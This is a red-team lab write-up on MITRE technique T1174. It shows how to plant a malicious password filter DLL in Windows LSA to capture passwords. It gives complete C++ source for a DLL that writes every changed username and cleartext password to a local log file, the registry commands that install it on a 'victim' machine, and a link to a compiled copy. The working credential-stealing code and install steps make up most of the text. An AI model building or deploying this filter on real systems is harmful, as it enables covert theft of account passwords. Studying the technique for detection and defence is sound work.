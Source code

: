 ```yaml
---
description: Credential Access
---
```


# T1174: Password Filter DLL

This lab explores a native OS notification of when the user account password gets changed, which is responsible for validating it. That means, the password can be intercepted..

## Execution

Password filters are registered in registry and we can see them here:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg query "hklm\system\currentcontrolset\control\lsa" /v "notification packages"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Or via regedit:

![](../.gitbook/assets/password-filter-regedit.png)

Building an evil filter DLL based on a great [article](http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html) by mubix. He has also kindly provided the code to use, which I modified slightly to make sure that the critical DLL functions were exported in order for this technique to work since mubix's code did not work for me out of the box. I also had to change the logging statements in order to rectify a couple of compiler issues:

```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>
#include <stdio.h>
#include <iostream>
#include <fstream>
using namespace std;

void writeToLog(const char* szString)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	if (NULL == pFile)
	{
		return;
	}
	fprintf(pFile, "%s\r\n", szString);
	fclose(pFile);
	return;

}

extern "C" __declspec(dllexport) BOOLEAN __stdcall InitializeChangeNotify(void)
{
	OutputDebugString(L"InitializeChangeNotify");
	writeToLog("InitializeChangeNotify()");
	return TRUE;
}

extern "C" __declspec(dllexport) BOOLEAN __stdcall PasswordFilter(
	PUNICODE_STRING AccountName,
	PUNICODE_STRING FullName,
	PUNICODE_STRING Password,
	BOOLEAN SetOperation)
{
	OutputDebugString(L"PasswordFilter");
	return TRUE;
}

extern "C" __declspec(dllexport) NTSTATUS __stdcall PasswordChangeNotify(
	PUNICODE_STRING UserName,
	ULONG RelativeId,
	PUNICODE_STRING NewPassword)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	OutputDebugString(L"PasswordChangeNotify");
	if (NULL == pFile)
	{
		return true;
	}
	fprintf(pFile, "%ws:%ws\r\n", UserName->Buffer, NewPassword->Buffer);
	fclose(pFile);
	return 0;
}
```

{% file src="../.gitbook/assets/evilpwfilter.dll" caption="Password Filter DLL" %}

Injecting the evil password filter into the victims system:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg add "hklm\system\currentcontrolset\control\lsa" /v "notification packages" /d scecli\0evilpwfilter /t reg_multi_sz

Value notification packages exists, overwrite(Yes/No)? yes
The operation completed successfully.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/password-filter-updating-registry.png)

Testing password changes after the reboot - note how the password changes are getting logged:

![](../.gitbook/assets/password-filter-filter-working.png)

## Observations

{% embed data="{\"url\":\"http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html\",\"type\":\"link\",\"title\":\"Stealing passwords every time they change\",\"description\":\"Password Filters  \[0\] are a way for organizations and governments to enforce stricter password requirements on Windows Accounts than those a...\",\"icon\":{\"type\":\"icon\",\"url\":\"http://carnal0wnage.attackresearch.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"http://4.bp.blogspot.com/-mQpGY-r4r-M/Ui96UJQH3dI/AAAAAAAADic/IFTyH90xM\_8/s640/Screen+Shot+2013-09-10+at+3.59.11+PM.png\",\"width\":640,\"height\":148,\"aspectRatio\":0.23125}}" %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1174\",\"type\":\"link\",\"title\":\"Password Filter DLL - ATT&CK for Enterprise\"}" %}

